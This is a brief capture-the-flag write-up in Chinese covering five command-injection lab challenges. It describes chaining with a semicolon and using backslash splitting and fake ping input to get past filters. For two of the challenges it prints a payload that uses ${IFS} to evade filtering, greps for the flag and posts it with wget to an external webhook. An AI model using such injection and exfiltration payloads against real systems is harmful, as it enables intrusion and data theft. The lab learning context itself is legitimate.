

# CMD01
最基礎的command injection，~~跟XSS一樣難~~，用分號後就可以執行指令了


# CMD02
要做點變化不然會被偵測到，所以用\把cat拆開來

# CMD03
老樣子，要做點變化不然會被擋，所以假裝我在PING 127.0.0.1

# CMD04
這裡比較難，一直都EVERYTHING IS GOOD，~~我的肝已經不GOOD了~~，使用wget把網頁內容到webhooK再獲取網頁資料
```
d|wget${IFS}--post-data${IFS}"user=$(grep${IFS}-r${IFS}AIS3_Junior${IFS}.)"${IFS}https://webhook.site/914f65e8-4d64-4f85-b580-fe17907b085b
```




# CMD05
同CMD04
```
d|wget${IFS}--post-data${IFS}"user=$(grep${IFS}-r${IFS}AIS3_Junior${IFS}.)"${IFS}https://webhook.site/914f65e8-4d64-4f85-b580-fe17907b085b
```


# bonus
~~通靈一下就出來了~~

